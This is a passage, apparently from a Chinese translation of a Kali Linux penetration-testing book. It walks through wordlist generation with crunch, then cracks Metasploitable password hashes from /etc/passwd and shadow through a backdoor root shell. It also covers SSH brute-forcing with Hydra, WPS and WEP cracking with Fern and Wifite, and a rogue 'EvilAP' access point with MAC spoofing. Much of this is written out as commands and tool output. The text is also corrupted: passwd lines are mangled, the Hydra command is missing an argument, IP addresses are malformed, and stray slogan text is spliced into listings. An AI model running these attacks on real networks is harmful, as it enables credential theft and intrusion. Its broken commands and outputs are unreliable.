但基本上我们只需要告诉 `crunch` 最小长度和最大长度，以及使用什么种类型的字符。

`Crunch` 还大量使用了位于其安装目录 `/etc/share/crunch` 下的 `charset.lst` 文件。因此，你需要在该目录下运行 `crunch`，或者在使用更高级的字符集（如下所示）时通过 `-f` 切换指向该目录。

好了，让我们从一个简单的开始。

例如：

```
root@Kali:~# crunch 1 3 -o ThreeLetters.txt
```

将产生类似的内容：

- - a, b, c, d, e, f, g, h, i, j, et...
- aa, ab, ac, ad, ae, af, ag, ah, ai, aj, at...
- aaa, aab, aac, aad, aae, aag, aah, aai, aaj, atc...

基本上，`crunch` 从单个字母“a”开始，循环所有排列直到达到“zzz”。

如果我们对选项进行调整，就可以创建一些更复杂的列表，例如：

```
root@kali:/usr/share/crunch$ crunch 3 4 abcd1234 -o AlphaNumeric.txt

Crunch 现在将生成以下数据量：35721 bytes

0 MB

0 GB

0 TB

0 PB

Crunch 现在将生成以下行数：7290

100%
```

这将创建一个以“aaa”开始并以“4444”结束的字典，创建出如 `aal1`、`bb3`、`2a21` 和 `e3da` 这样的字母/数字组合。

我们可以使用 `charset.lst` 文件，这样我们就不需要输入所有实际想要使用的字符，如果运行 `cat charset.lst` 可以查看可用的命令：

```
root@kali:/usr/share/crunch# cat charset.lst

# charset configuration file for winrtgen v1.2 by Massiliano Montoro [mao@ox]

# compatible with rainbowcrack 1 and later by Zhu Shuanglei <shuanglei@hotmail>

.com>

hex-lower        =[0123456789abc]

hex-upper        =[0123456789ABCDEF]

numeric          =[0123456789]

numeric-space    =[0123456789 ]

symbols1         The quieter=[!@#$%^&*()_+-]you are able to hear

symbols14        =[!@#$%^&*()_+-=]

symbols-all      =[!@#$%^&*()_+-={}\||\\;;:'",.<>?/]

symbols-all-space=[!@#$%^&*()_+-={}\||\\;;:'\",.<>?/ ]

alalpha           =[ABCDEFGHIJKLMNOPQRSTUVWXYZ]

alpha-space     =[ABCDEFGHIJKLMNOPQRSTUVWXYZ ]
```

我们可以使用任何定义的集合，例如：

```
root@kali:/usr/share/crunch# crunch 2 4 -f charset.lst mixalpha-numeric-all -o mindedAnl.txt

Crunch 现在将生成以下数据量：393723324 bytes

375 MB

0 GB

0 TB

0 PB

Crunch 现在将生成以下行数：78914316
```


这花了一点时间，但创建了一个循环 2 到 4 个字符且包含所有字母、数字和符号的字典。

你可以使用字符串，这意味着你可以让每个密码以某个单词开头，或者让密码的前部分是字母，后部分是数字。这并不是必须的，因为一些高级的破解程序会自动完成其中的一些工作。

# 从网络下载字典列表

如果以上信息都没有对你有所帮助，或者你想要更多的字典列表，你也可以从网上下载它们并在 Kali 中使用。我见两个两个网站是 Skull Security 和 CrackStation。

- **Skull Security:** (`http://www.skullsecurity.org/wiki/index.php/Passwords`) 有多个你可以下载并使用的字典列表。
- **CrackStation:** (`https://crackstation.net/buy-crackstation-wordlist-password-cracking-dictionary.htm`) 有几个，其中一个我称之为“字典之母”，一个 15GB 的怪物！

## 结论

很多时候，密码破解程序配合一个或多个字典列表效果好得多。在本节中，我们涵盖了如何使用 Kali 查找和创建这些列表。创建自己的密码文件可以大幅缩短破解时间。如果你有时间和耐心，你可以创建一个包含大量单词的巨型密码列表。当其他方法都失败时，互联网提供了一些你可以下载并使用的优秀字典列表。

# 第 23 章 – 破解 Linux

## 引言

就像密码在 Windows 中可以被破解一样，Linux 机器上也可以这样做。你只需要 root 权限和一个像 John the Ripper 这样的破解程序。在本教程中，我们将使用 Metploitable 作为起点：

```
* Sending backdoor...
* Accepted the first connection...
* Accepted the second connection...
* Writing to socket A
* Reading from sockets...
* line 2: command not found
* line 3: Escape: command not found
* Matching...
* Command 1 opened (192.168.149:4444 -> 192.168.145:5287)
```

好了，我们有一个远程 shell，正如上面看到的，我是 root 用户。我们需要恢复密码哈希并破解它们。简单地输入 `cat /etc/passwd`：

```
root:x:0:/bin/bash
daemon:x:1:/usr/bin/bash
bin:x:2:/bin/sh
sys:x:3:/dev/sh
sync:x:4:65534:/bin/sync
games:x:5:60:/games/sh
manager:x:6:/var/cache/bin
lp:x:7:/var/spool/lp/sh
mail:x:8:/var/mail/sh
news:x:9:/var/spool/news/sh
uucp:x:10:/var/spool/uucp/sh
proxy:x:11:13:/bin/sh
www-data:x:33:33:/var/www/sh
backup:x:34:34:/var/backups/sh
list:x:38:38:/var/list/sh
irc:x:39:39:/var/run/irc/sh
gates:x:41:41:gnats Bug-Reporting System (admin):/var/lib/gnats/sh
nbody:x:65:65:nobody:/nonexistent/bin/sh
lubuid:x:98:98:/var/lib/uuid/bin/sh
dcp:x:101:101:/nonexistent/bin/false
syslog:x:102:102:/home/syslog/bin/sh
log:x:103:103:/home/log/bin/sh
apt:x:104:104:/var/lib/apt/bin/sh
message:x:105:105:/var/sbin/nologin
nfsadmin:x:108:100:/home/nfs/bin/sh
bind:x:105:113:/var/cache/bin/sh
postfix:x:106:115:/var/postfix/bin/sh
fftp:x:107:65534:/home/fftp/bin/sh
admin:x:108:108:admin:/var/lib/bin/sh
postgresql:x:109:109:postgresql:/var/lib/postgresql/bin/sh
mysql:x:109:118:mysql:/var/lib/mysql/bin/sh
tomcat5:x:110:65534:/var/share/tomcat5/bin/false
distrust:x:111:65534:/var/lib/bin/sh
user:x:112:100:user:/home/user/bin/sh
ost:x:111:102:ost:/var/service/bin/sh
tnetadm:x:112:120:nonexistent/bin/false
proftpd:x:113:65534:/var/run/proftpd/bin/sh
stat:x:114:65534:/var/lib/nfs/bin/sh
```

现在只需复制此文件的文本。现在只需通过鼠标选择该文本并将其复制到命名为“passwd”的文件中，保存到 Kali 桌面：


现在对“shadow-” 文件执行完全相同的操作。

现在你的 Kali 系统上应该有两个文件：`root/Desktop/passwd` 和 `/root/Desktop/shadow-`。接下来，我们需要获取这两个新文件的文件并使用 John Ripper 工具对它们运行 `Unshadow` 命令。该命令将文件合并成一个单一文件（cracked），供 John Ripper 破解：

```
root@kali:~/Desktop$ unshadow passwd shadow > cracked
```

好了，现在我们已经合并了“cracked” 文件，可以对其释放 John Ripper 来尝试检索密码了。

我们将使用随 John 附带的“password.lst”字典：


好了，有 7 个密码哈希，只剩下 1 个。现在使用命令查看它发现了什么：


在这里我们有了 6 组可以操作的用户名和密码。

+ - sys/ batmanman
- klog/ 1234567898（注：原文此处为重复8）
- msfadmin/ msfadmin
- postgresql/ postgres
- user/ user
- service/ service

看起来这台机器的管理员使用了简单的密码，真不是好主意。

# 使用 Hydra 自动化密码攻击

现在我们有了这些密码，可以获取它们并使用“Hydra ”自动化对 Metploitable 服务的攻击。

Hydra 是一个暴力破解攻击程序，它接收用户列表和密码列表，并尝试它们的各种组合来攻击服务器服务。

如果我们创建一个包含用户名的文本文件和另一个包含密码的文本文件，可以将它们输入给类似 Hydra 的程序来自动测试这些密码。

所以，如果我们想用新创建的密码攻击 SSH 服务，可以执行如下操作：

```
root@Desktop:~$# hydra -L user -P 192.168.198.145 ssh
Hydra v7.5 (c)2013 by van Hauser/ThC Maciejak for legal purposes
Hydra (http://www.thc.org/hydra) starting at 2013-11-02 16:35:44
[DATA] 16 tasks, 1 server, 81 login tries (l:9/p), -5 tries per task
[DATA] attacking ssh on port 22
[ERROR] ssh protocol error
[ERROR] ssh protocol error
[ERROR] ssh protocol error
[ERROR] ssh protocol error
[ERROR] ssh protocol error
KALI LINUX
The quieter you become, the more you are able to hear
[ERROR] ssh protocol error
[SUCCESS] host: 192.168.198.145 login: msfadmin password: msfadmin
1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/hydra) finished at 2013-11-02 16:36:02
root@Desktop:#
```

“-L” 参数列出了我们的用户名文件，在本例中为“user”。“-P”开关是我们的密码文件路径，在本例中为“pass”。然后，我们只需要列出目标 IP 地址和目标服务即可！

（如果你偏好图形化界面，可以使用“在线密码攻击”菜单中的 Hydra-GTK）

如你所见，它很快就找到了正确的用户名和密码组合：

msfadmin/ msfadmin

虽然尝试一组我们已经知道的小密码列表有些愚蠢，但其原理是可靠的。在没有任何实际实际密码的情况下，我们可以使用 hydra 配合大型用户名和字典文件，尝试通过暴力破解进入服务器。

## 结论

以上就是全部。因为我们拥有 root shell，所以能够简单地将 Linux 密码哈希值复制粘贴到本地机器来获取它们。然后，我们就可以使用 John Ripper 对其进行破解。

如果你仔细观察在早先教程中提到的 Metasploit 服务扫描程序，可能会注意到其中一些程序留有设置用户名和密码的地方。如果我们把新破解的密码喂给这些扫描器中，并让它们攻击 Metasploitable 虚拟机，那不是很方便吗？

此外，由于许多人在其他机器上会多次使用相同的密码，我们可以使用相同的扫描器针对整个网络地址空间，看看我们还能访问其他多少机器！

如果 Linux 管理员更新了软件，甚至使用了复杂的密码，这将会变得困难得多，甚至无法实现。

最后，正如 Hydra 自动化攻击所示的那样，我们需要使用长且复杂的密码来保护服务器免受暴力破解攻击。

# 第六部分 – 路由器与 Wi-Fi 攻击

# 第 24 章 – 路由器攻击

### 资源

- Routerpwn
- Shodanhq.com

## 引言

最近，在非常常见的网络路由器中发现了几个严重漏洞。在大多数情况下，它们是网络的第一道防线，因此我认为花些时间研究它们是非常重要的。

我们将查看路由器和无线网络受到攻击的几种方法。

在本章中，我们将查看“Routerpwn”，这是一个包含路由器可执行漏洞利用程序的网站。然后，我们将查看如何攻击 Wi-Fi 保护设置 (WPS) ——这是一种基于按钮或 PIN 码的设置 WPA/WPA2 网络的方法。

在接下来的几个章节中，我们将更深入地介绍攻击 Wi-Fi 网络。

但在之前，让我们先聊聊路由器密码。

## 路由器密码

在所有设备中，路由器是需要用长复杂密码来保护的最设备之一。

存在许多网站，包含了网络设备的默认密码。随机路过的黑客（寻找容易得手的目标的人）会做的第一件事就是尝试面向互联网的设备凭据。

遗憾的是，很多时候这些凭据是有效的的！

一些行业专家建议使用包含 12-15 个混合符号、数字和大小写字母的密码作为好密码。对于任务关键的面向网络的路由器，我甚至建议长度是其两倍。

我还建议在不需要时关闭远程 Web 管理。这会立即阻止来自互联网对路由器进行的更改。

## Routerpwn

虽然 Kali 中未包含，但 Routerpwn.com 可能是寻找路由器漏洞最易用的工具之一。该网页包含了按制造商分类的路由器漏洞，以及多个工具和实用程序，包括密码生成器。

| 2Wire | Comtrend | Motorola | Thomson |
|---|---|---|---|
| 3Com | DD-Wrt | Netgear | TP-Link |
| Arris | DLink | Pirelli | TRENDnet |
| Alpha | EasyBox | RuggedCom | Ubiquiti |
| Asmax | Fibrehome | Sagem | UTStarcom |
| Asus | Freebox | Seagate | Xavi |
| Belkin | Huawei | Siemens | ZyXEL |
| Cisco | MiFi | Sitecom | |

要使用该网站，只需点击目标路由器的制造商即可。例如，如果我们选择“Dlink”，我们将看到 Dlink 部分的漏洞：


| | | | | |
|---|---|---|---|---|
| 02/19/16 | [+] | DSL-2640B change admin password CSRF | [SET IP] |
| 02/08/16 | [+] | DNS-320 DNS-325 command execution | [SET IP] |
| 02/08/12 | [+] | DNS-320 information disclosure | [SET IP] |
| 02/08/12 | [+] | DNS-325 information disclosure | [SET IP] |
| 02/10/12 | [+] | DAP-1150 save configuration CSRF | [SET IP] |
| 02/10/12 | [+] | DAP-1150 denial of service | [SET IP] |
| 12/17/11 | [+] | DSL-500T reset password CSRF | [SET IP] |

如果你点击路由器型号，Routerpwn 将向你显示。

选择你想要攻击的接入点名称，在我们的示例中为“Vulnerable”（漏洞）。

6. 在攻击选项下选择“WPS Attack”。

7. 然后点击“WiFi Attack”按钮。


8. 随后 Fern 将尝试破解 WPS 密钥：


就是这样；如果成功，我们将看到 WPS PIN 以及更重要的 WPA 密码。

## 使用 Wifite 破解 WPS

Wifite 是另一个非常实用的 WiFi 测试程序，包含了 WPS 攻击能力。

1. 打开终端并输入“wifite”：

```
Wifite v2 (r85)
automated wireless auditor
designed for Linux
[+] scanning for wireless devices... done
[+] enabling monitor mode on wland0...
[+] initializing scan (mon0), updates at 5 sec intervals, CTRL+C when ready.
[00:08:04] scanning wireless networks. 0 targets and 0 clients found
[+] scanning (mon0), updates at 5 sec intervals, CTRL+C when ready.
```

2. Wifite 将初始化你的无线卡并将其设置为监控模式。随后它将扫描

3. 网络将显示出来，一旦你看到想要的网络，按下“Ctrl+C”：

4. 选择你想要攻击的目标。

```
NUM ESSID CH ENCR POWER WPS? CLIENT
1 dlink 1 WPA2 70db wps
+] select target numbers (1-1) separated by commas, or 'all': 1
```

你可以通过 WPS 列是否显示绿色显示来判断是否启用了 WPS（如果已启用，wps 会在“WPS?”列下显示绿色）。

```
[0:00:00] initializing WPS PIN attack on dlink BB:A3:
[0:01:22] WPS attack, 8/18 success/ttl, 0.15% complete (6 sec/att)
```


如前所述，WPS 破解并不快，有些人说它可能需要 10 小时或更多才能完成。

此外，新的路由器对这些类型的攻击有防护，某些路由器会在尝试失败后锁定 WPS。但在许多情况下，通过 WPS 破解路由器比尝试破解长长的 WPA2 密码要快得多。

## 结论

攻击路由器有多种方法，我们涵盖了最易用的方法之一——Routerpwn。我们还涵盖了攻击路由器的 WPS 能力。

正如提到的，在接下来的几个章节中，我们将花费更多时间来讨论路由器，特别是 WiFi 网络。

公司和家庭务必及时跟路由器固件更新，使用复杂密码保护路由器，并在不需要时关闭 WPS。

# 第 25 章 – 无线网络攻击

### 资源

- Kali 无线适配器讨论：`http://forums.kali.org/showthread.php?4327-Best-wireless-adapter-for-Kali-linux-%28PCIE-amp-USB%29`

## 引言

无线网络和 WiFi 设备已经渗透了家庭领域和商业领域。针对 WiFi 网络的威胁多年为人知，尽管人们已经做出努力来锁定无线网络，但仍有一些网络处于完全开放状态或安全性极差。

在本章中，我们将讨论无线安全以及一些常见的 WiFi 安全误区。我们将查看几个用于测试安全性的流行工具。我们还将涵盖道德黑客可以用来检查其无线网络安全性的若干技术。

遗憾的是，无线网络有时可以被修改以欺骗用户，因此我们还将涵盖渗透测试人员（或不幸的，黑客）如何使用简单的无线卡设置虚假的接入点（AP）并重定向网络用户、捕获身份验证凭据并可能获得客户端的完全访问。

在部分的最后一部分，我们将查看两个可以使用菜单驱动程序，这些程序可以使 WiFi 测试变得非常简单。

## 无线安全协议

尽管消息正在传出，无线制造商正在为他们的设备配置更好的安全性作为默认设置，但仍有大量无线网络的安全性低得可怕。

保护你的无线网络最重要的事情之一就是无线安全协议。你有“None”（无），这基本上意味着你敞开大门，让任何人都能访问你的网络。“WEP”它在很久以前就被破解了，基本上意味着你锁了门，但把钥匙留在了门垫下面，还贴了一张大告示写着“钥匙在垫下”。“WPA”要好得多，而“WPA2”是你的网络最新且推荐的安全设置。

下表（图 1）是根据我当地城市创建的数据。


如所示，13% 的检测到的无线网络完全没有设置安全性，29% 使用 WEP 的情况并没有好到哪里。有趣的是，竟然 46% 的正在使用 WPA2，这其实有点让人惊讶。但在许多情况下，从捕获的信标来看，AP 具备 WPA2 能力，但客户端使用的是较低的 WPA。

WPA/WPA2 仍然可以被破解。

## 开始

你需要一个支持监控模式的无线卡。接下来，让我们上手观察一些安全误区。

## 使用 Airmon 查看网络

1. 打开终端并输入"`ifconfig`"。

2. 现在，我们需要做的是将卡设置为监控模式。要做到这一点，只需输入"`airmon-ng start wlan`"


你可以从上面的图中看到监控接口被称为"`mon0`" 。其他工具将使用它。

3. 直接输入"`airodump-ng mon0`"

`Airodump-ng` 程序启动后，你会看到所有可用接入点（AP）列表，以及连接的客户端列表。

| CH [1] Elapsed: 9 mins] Beacons #Data, #s MB ENHER AUTH ESSID |
|---|---|---|---|---|
| BSSID | PWR Rate | Lost | Frames Probe | |
| 08:00:66:E: -54 563 | 390 0 7 54 | WPA2 CCK PSK | |
| 88:A3:6E: | -59 338 | 1 54 | WPA2 CCK PSK | Vulnerable |
| BSSATION | PWR Rate | Lost | Frames Probe | |
| (not associated) | F6:27:FB: | | 0 - 1 | 112 |

（你可以随时按下 CTRL-C 返回到终端提示符。）

`Airodump-ng` 列出了几项感兴趣的信息。第一个是 AP 设备的 MAC 地址。接下来是功率级别、AP 运行的通道号、发送的数据包数量以及加密和身份验证类型。

最后，列出了 AP 名称。

从图中，你可以看到两个 AP 都使用“WPA2”，这是推荐的加密类型。如果类型是“WEP”或“OPN”（开放），那么将会存在安全隐患。

如所示，没有客户端连接到任何接入点。如果有客户端连接，我们将在 BSSID 下看到客户端及其所连接的 AP 的 MAC 地址。

你可以看到 Wi-Fi 固有的安全缺陷之一。通过 MAC 地址过滤客户端并不是一种非常有效的安全策略，因为通过物理地址可以轻松查看哪些客户端连接到了 AP（接入点）。

攻击者只需要查看哪些地址已连接，然后伪造该地址（本章稍后会介绍 `macchanger` 命令）用来绕过 MAC 过滤即可！

## 在 Wireshark 中查看 Wi-Fi 数据包和隐藏的 AP

另一个常见的 Wi-Fi 安全误区是，认为将无线接入点（AP）设置为使用“隐藏” SSID 会增加网络的安全性。事实并非如此，我们将在本节中看到其原因。

好了，我们已经知道了如何查看哪些可用的 AP，现在让我们看看如何在受欢迎的协议分析工具 Wireshark 中捕获并分析无线数据包。

只需像上一个示例中那样将你的 Wi-Fi 网卡设置为监听模式（monitor mode），然后运行 Wireshark。将网卡置于监听模式允许我们看到无线管理流量，如 AP 信标（Beacons）和探测（Probes）：

```
root@Kali:~# airmon-ng start wlan0

root@Kali:~# wireshark &
```

（当你启动 `airmon-ng` 时，可能会收到一条消息，提示运行中的进程可能会导致问题，这些可以忽略。Wireshark 命令后使用的 `&` 告诉 Kali 运行 Wireshark，并为你返回命令行提示符。）

Wireshark 将打开，你只需要做：

- 1. 从接口列表中选择“mon0”
- 2. 点击“Start”（开始）。


Wireshark 现在将开始使用无线网卡，并开始从空中捕获网络控制数据包，你应该能立即看到所有 Wi-Fi Beacon 流量的列表。

例如：

- 1. 0.000000 Beacon frame, SN=3269, FN=0, SSID=Broadcast
- 2. 0.028565 Beacon frame, SN=3318, FN=0, SSID=Terminator

在这里，你可以从两个独立的 AP 捕获数据。第一个被称为“Terminator”，但第一个是无效的。SSID 为“Broadcast”，这告诉我们这个 AP 的名称是隐藏的。这是一种保护无线网络的无效技术，我将为你展示为什么。

如果客户端尝试连接到这个隐藏的 AP，我们会在“Probe Request”（探测请求）中自动捕获 SSID 名称。检查数据包捕中的“Probe Requests”，我们实际上会看到如下所示的隐藏 SSID：

- 93. 6.623480 Probe Request, SN=0, FN=0, SSID=HiddenWiFi
- 99. 7.122094 Probe Response, SN=843, FN=0, SSID=HiddenWiFi

在 Beacon 帧中没有显示的 名称，一旦客户端尝试连接，就会向你暴露！

客户端在探测请求中列出隐藏的 AP 名称，在此例中为“HiddenWiFi”。AP 则在 Probe Response 中将其隐藏名称回给客户端。

要停止 Wireshark 捕获，只需使用菜单上的“Stop Capture”（停止捕获）按钮。然后你可以搜索、过滤或保存结果。

## 将无线网卡转换为接入点

无线网卡的一个有趣特性是它们还可以充当接入点（AP）。这一特性对渗透测试人员非常有吸引，但遗憾的是对恶意用户也是如此。你可以使用任何想要的 SSID 创建 AP。如果你将创建的 AP 命名为现有的名称，客户端将无法区分并连接到最近的一个，或者信号最强的那个。

一旦你的网卡进入监听模式（`airmon-ng start wlan0`），你可以使用 `airbase-ng` 命令将其转换为 AP：

```
root@Kali:~# airbase-ng -e "EvilAP" -c 6 mon0
```

此命令在 mon0 接口的第 6 通道上创建一个名为“EvilAP”的 AP。

```
root@Kali:~# airbase-ng -e "EvilAP" -c 6 mon0

12:29:50 Created tap interface at0

12:29:50 Trying to set MTU on at0 to 1500

12:29:50 Trying to set MTU on mon0 to 1800

12:29:51 Access Point with BSSID F0:D1:B1:B3:F7:DF started.
```

该 AP 现在应该出现在任何网络 Wi-Fi 客户端上：


一旦有人连接到它，它就会出现在我们的 Kali 系统上：

12:34:14 Client 78:E4:00FF2C:AB:01 (encrypted) to SSID: “EvilAP”。我们现在已经把这个看似不起眼的无线网卡变成了一个“ Jekyll 先生”，我们还需要配置 Kali 系统以为连接的客户端分配 IP 地址（DHCP），并控制它们可以看到的网站（DNS 欺骗）。

你可以手动完成，但有几个程序可以自动完成。Kali 最近添加的“Ghost-Phisher”就是其中之一，社会工程工具包（SET）无线 AP 攻击是另一种。另一种方法是接管互联网与我们的无线客户端用户之间的通信控制权。

在最新的 Kali 版本中，Ghost-Phisher 已包含在 Kali 中，但 Wi-Fi 攻击似乎无法完全工作。而且在 Backtrack 中运行良好的 SET AP 攻击想要使用 `dhcpd3` 服务器，而该服务器似乎在 Kali 中不受支持。

但使用任何一种工具创建伪造 AP 并获取凭据，或者执行中间人攻击，只需点击鼠标即可轻松完成。

关注这些工具，我相信这两者将在稍后的 Kali 更新中得到修复。

在本章中，我们将看到如何使用“Easy-Creds”来管理所有这一切以及更多内容。

## 使用 MacChanger 更改 Wi-Fi 网卡的地址 (MAC)

你可能想在运行无线测试之前更改无线网络网卡的 MAC 地址。如果是这样，Kali 支持一个名为 MacChanger 的工具。

请注意，`ifconfig` 命令显示了网卡的物理 MAC (Hwaddr) 地址。这是硬编码在网卡中的唯一标识。但你可以通过 `macchanger` 命令来更改此地址。

1. 使用 `ifconfig wlan0 down` 命令禁用无线网卡。
2. 输入 `macchanger -r wlan0`。

- `r` 命令将你的 MAC 设置为随机地址。如果你需要，也可以将其添加为特定地址。使用帮助开关（`macchanger -h`）查看更多选项。

```
root@Kali:~ # ifconfig wlan0

root@Kali:~ # macchanger -r wlan0

Permanent MAC: f8:d1:l1:--:--:-- (unknown)

Current MAC: f6:27:fb:9c:be:94 (unknown)

root@Kali:~ # ifconfig wlan0 up

root@Kali:~ # ifconfig wlan0

wlan0      Link encap:Ethernet Hwaddr f6:27:fb:9c:be:94

           UP BROADCAST MULTICAST MTU:1500 Metric:1

           RX packets errors:0 dropped:0 overruns:0 frame:0

           TX packets errors:0 dropped:0 overruns:0 carrier:0

           collisions:0 txqueuel:1

           RX bytes:0 (0 B) TX bytes:0 (0 B)
```

## 结论

我们已经看到了许多不安全的路由器，绕过某些实施措施非常简单。防御 Wi-Fi 攻击的最好方法是保护你的路由器；如果你允许人们进入防火墙，你就会让自己处于中间人攻击、数据包嗅探和其他攻击之中。遗憾的是，许多企业用户并不理解这一点，并将他们的笔记本电脑从极其安全的环境带到非常不安全的 Wi-Fi 网络。

要有常识，如果你正在处理敏感信息，请在家里而不是咖啡馆。更多信息，请查看 Vivek Ramachandran 的优秀书籍《Backtrack 5 Wireless Penetration Testing Beginner’s Guide》。此外，David Kennedy（SET 创建者）的《Metasploit: The Penetration Tester’s Guide》是 Backtrack 5 和 Metasploit 框架的优秀参考文献。

# 第26 章 – Fern WIFI Cracker

### 简介

Fern WIFI Cracker 是一个强大的程序，为 Arack-ng 和 Reaver 无线渗透工具提供了一个易于使用的图形界面。

使用此工具，我们可以扫描接入点并执行菜单驱动的 WPS 攻击以及 WEP/WPA 和 WPA2 密钥破解。

你也可以用 Fern 攻击无线保护设置 (WPS)。

## 使用 Fern

- 1. 从菜单中选择 Kali Linux>Wireless Attacks>Wireless Tools>fern-wifi-cracker，或者在命令行运行 `fern-wifi-cracker`。


- 2. 只从下拉列表中选择你的接口：


监听模式将自动启用，Fern 将开始搜索区域内的接入点。

一旦检测到某些目标，它们将以 WIFI WEP 或 WPA 图标的形式出现，如下：


3. 点击 WIFI 图标列表将列出你的网卡在该区域可见的每一个接入点：


4. 现在只需从目标接入面板（Target Access Panel）中选择一个接入点。然后选择 WPS 或常规攻击（Regular attack）。

5. 我们选择我们的 AP 终端（AP Terminator）（顺便说一下，这是一个隐藏 AP，Fern 毫无问题地发现了它），并选择无线保护设置攻击（简简称 WPS），然后点击“攻击（Attack）”按钮：


Fern 正确地检测到我们的 AP 未启用 WPS。考虑到开启 WPS 的安全风险，我总是会关闭所有所有路由器上的 WPS。

在某些路由器上，WPS 功能容易受到暴力破解攻击，攻击者可以运行类似“Reaver”（Fern 使用）的程序并获取路由器的权限（http://www.kb.cert.org/vuls/id/723755）。

由于此方法不起作用，我们的下一步是尝试对路由器使用的口令（passkey）进行字典攻击。

- 6. 只需选择“常规攻击（Regular Attack）”，然后选择要使用的词列表。在示例中，我们将使用 Fern 的“/extras/wordlists”文件夹下的“common.txt”词列表，如下所示：


攻击将尝试使用词列表中的每个单词匹配接入点的口令短语：


正如你在下方所示，在字典攻击期间，并没有找到我使用的长复杂密码：


## 结论

在本节中，我们发现使用 Fern WIFI Cracker 测试无线安全是多么简单。该程序允许我们快速发现并分析周围的网络，并选择要测试哪些网络。

再次强调，选择 WPA2 和长复杂的密码将帮助你的无线网络免受攻击者的侵害。

# 第 27 章 – 使用 WiFite 进行 Wi-Fi 测试

## 引言

有几个程序采用了 Aircrack-ng 工具集并为其添加了图形或文本菜单。这使得使用该工具集变得简单易得多，无需记住所有的单独命令。

现在我们将查看 WiFite，这是一种快速且易用的命令行驱动程序，用于发现和测试无线网络。

## 使用 WiFite

- 1. 要启动 WiFite，只需在终端提示符处输入 `wifite`：

```
root@Kali:~# wifite
```


- 2. `Wifite` 将启动并自动开始扫描网络：


- 3. 此时只需让它运行一会儿。你会看到无线网络随着它们的发现开始填充。当你觉得已经找到了足够的网络，或者找到了你正在寻找的那些时，按下 `CTRL-C`。

- 4. 随后你会被询问想要攻击哪些 Wi-Fi 网络。你可以选择单个，通过用逗号分隔数字来选择，或者直接输入 'all' 来攻击所有网络。


这里需要注意的事项是：你有 `NUM`，即你想加密的 Wi-Fi 网络编号；`ENCR` 是网络正在使用的加密类型（Open、WEP、WPA 或 WPA2）；分贝为单位的 `POWER` 电平；以及是否启用了无线保护设置（`WPS`）以及是否有客户端（`CLIENT`）连接。如果连接了一个，会显示 'client'；如果有多个客户端，则显示 'clients'。

- 5. 对于此示例，编号 1 - "Vulnerable"似乎是一个很好的尝试对象。如你所示，它仅在使用 WEP 加密，很容易破解。

WiFi 立即开始自动攻击并破解 WEP 密钥。


破解 WEP 密钥需要大量的初始化向量（IVs）。无线 AP 通常生成 IV，但我们需要大量的 IV——你可以看到 `aircrack-ng` 工具在后台运行，注入数据以强制 AP 产生大量此类密钥包。

一旦收集了足够的数据包，就可以像下面所示解码出 WEP 密钥：


```
[00:10:08] preparing attack "Vulnerable" (08:A3:B6:AA:83:7C)
[00:10:08] attempting take authentication (2/5)... success!
[00:10:08] attacking "Vulnerable" via arp-replay attack
[00:08:04] started cracking (over 10000 ivs)
[00:07:10] captured IV at rate 0.72/sec
[00:07:18] cracked "Vulnerable" key: 1234567890
1 attack completed:
[+] 1/1 WEP attacks succeeded
cracked "Vulnerable" (08:A3:B6:AA:83:7C), key: 1234567890
[+] disabling monitor mode on mono0...done
[-] quitting
```

如你所见，`WiFiite` 在这种情况下成功破解了 WEP 密钥 "1234567890"。

## 使用 WiFi 进行更高级的攻击

WiFi 有一些命令行开关允许我们定制攻击。例如，如果我们知道某个 Wi-Fi 路由器的名称，可以使用 `-e "AP Name"` 关来指定该特定的路由器。

我们还可以通过使用字典文件 `--dict/Path` 关来包含字典文件，从而加速破解 WPS 密码。

尝试将它们结合，使用 RockYou 密码文件攻击特定的 Wi-Fi 网络：

```
root@kali:~# wifite -e "Vulnerable" --dict /usr/share/wordlists/rockyou.txt
```

你可以使用 `-all` 关配合加密关 `-wpa` 来攻击所有使用 WPA 且功率大于 60 分贝的网络。

## 结论

在本章中，我们展示了如何通过易用的菜单驱动系统使用 WiFi 程序来发现和测试无线安全，它是多么简单。我们还讨论了如何通过命令行开关 WiFi 来定义测试。

## 第 28 章 – 使用 Kismet 进行 Wi-Fi 测试

## 引言

有几个程序采用了 Aircrack-ng 工具集并为其添加了图形或文本菜单。这使得使用该工具集变得简单得多，无需记住所有的单独命令。

你可能听过“战争驱动（War Driving）”术语，它基本上是指使用无线监控程序在行驶时获取信息。Kismet 是一个经常使用的程序。

### 使用 Kismet 扫描

- 1. 从菜单启动 Kismet，或直接在终端提示符处输入 `kismet`：


- 2. 添加 GPS 来源（如手机），Kismet 将为每个网络添加 GPS 位置。


- 3. 在 Kali 中，Kismet 将这些文件转到根目录。文件名带有时间戳。时间戳对于在几天内多次运行 Kismet 非常有用。

- 4. 在关闭消息中，你会看到创建了多个 Kismet 日志：

- 5. 如果你想停止服务器，进入 Kismet 菜单并“退出（Quit）”。

- 6. 当你觉得 Kismet 运行足够长时间后，点击“停止（Stop）”：


Kismet 将停止服务、关闭并留下终端提示符。太棒了。

你可以使用“查看（View）”和“排序（Sort）”菜单来决定在屏幕上显示哪些数据以及如何排序。

| 附加信息 |
| :--- |
| 你可能听过“战争驱动”术语，它基本上是指使用无线监控程序在行驶时获取信息。Kismet 是一个经常使用的程序。 |
| 只需在你的笔记本电脑上运行 Kismet。添加一个 GPS 来源（如手机），Kismet 将为每个网络添加 GPS 位置。完成后，你可以为该区域创建一个精美的地图。 |

花点时间看下我们收集的数据。进入你的根目录，使用 `ls` 命令列出文件：

```
root@kali:# ls

Kismet-20130909-09-56-58-1.pcapdump Kismet-20130909-09-56-59-1.nettxt

Kismet-20130909-09-56-59-1.alert Kismet-20130909-09-56-59-1.netxml

Kismet-20130909-09-56-59-1.gpsxml
```

这非常有趣，所有收集的信息都位于这些文件中：

- **Pcapdump** 包含整个会话的数据包捕获
- **Alert** 包含生成的任何警报数据
- **Gpsxml** 如果你使用了 GPS 源，则包含 GPS 数据
- **Nettxt** 包含所有以良好的文本格式输出收集的数据
- **Netxml** 包含所有 XML 格式的数据

### 在 Wireshark 中分析 Kismet PCAP Beacon 帧

注意第一个文件是一个 pcap 文件或数据包捕获文件。这意味着我们可以在 Wireshark 等程序中打开该文件并查看 Kismet 检测到的每个 beacon（信标）。

1. 在终端提示符启动 Wireshark（`wireshark &`）。
2. 加载 pcapdump 文件。点击“File”然后“Open”，选择根目录下的 pcapdump 文件并点击“Open”。


3. pcap 文件将在 Wireshark 中打开，你可以查看所有的 beacon 控制帧：

